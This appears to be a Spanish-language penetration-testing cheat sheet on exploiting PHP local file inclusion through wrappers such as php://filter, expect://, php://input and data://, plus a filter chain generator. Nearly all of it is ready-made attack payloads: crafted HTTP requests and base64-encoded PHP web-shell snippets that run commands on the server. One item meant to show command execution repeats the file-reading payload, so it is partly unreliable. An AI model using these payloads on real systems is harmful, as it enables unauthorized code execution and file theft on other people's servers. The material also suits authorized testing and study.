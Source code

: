 
Otro **Groupers** que podemos usar en la web es el siguiente: 
Este nos ayudaria convertir de UTF-8 a UTF-16:
* index.php?page=**php://filter/convert.iconv.utf-8.utf-16/resource=secret.php** y obtendriamos como resultado que nos muestre el resultado por la web ya que no lo esta 'interpretando'.


Otro **Groupers** que podemos usar en la web es el siguiente:
Este nos ayudara a ejecutar comandos
* index.php?page=**php://filter/convert.iconv.utf-8.utf-16/resource=secret.php** y obtendriamos como resultado

### En BurpSuite
Este **Groupers** lo podemos usar en BurpSuite:
Nos ayudara a ejecutar comandos
* POST /?filename=**expect://whoami** HTTP/1.1  
Obtendriamos el whoami de la maquina (Si es que esta habilitado)


Este **Groupers** lo podemos usar en BurpSuite:
Nos ayudara a ejecutar comandos
* POST /?filename=**php://input** HTTP/1.1 
Obtendriamos el comando que nosotros le pasemos (whoami, id, etc...)
```php
<?php system("whoami"); ?>              # Esta parte se pone al final de la peticion en BurpSuite
```


Este **Groupers** lo podemos usar en BurpSuite:
Nos ayudara a ejecutar comandos, pasandole un comando que este encodeado en base64
```php
<?php system("whoami"); ?>        # Lo codificamos en base64 = PD9waHAgc3lzdGVtKCJ3aG9hbWkiKTsgPz4=
```
* GET /?filename=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ3aG9hbWkiKTsgPz4= HTTP/1.1 
Obtendriamos el comando que nosotros le pasemos (whoami, id, etc...)


Este **Groupers** lo podemos usar en BurpSuite:
Para controlar el comando que querramos injectar.
```php
<?php system($_GET["cmd"]); ?>         # Lo codificamos en base64 = PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+, debemos de url-encodear el + = %2b
```
* GET /?filename=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+&cmd=whoami HTTP/1.1 
* GET /?filename=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2b&cmd=whoami HTTP/1.1  -> La manera correcta 
Debemos de colocar al final **&cmd=comando** y es ahi donde podriamos colocar cualquier comando 


### PHP Filter Chain Generator

Podemos usar el siguiente comando y nos lo hara automaticamente con la tool.

```bash
❯ python3 php_filter_chain_generator.py --chain '<?php system("whoami"); ?>'     # Nos crea la expresion 
```
Esto es en la url de la web.
* localhost?filename='Aqui colocamos el resultado del comando anterior'   
Podemos ejecutar comandos. Es una forma mas avanzada de hacerlo.
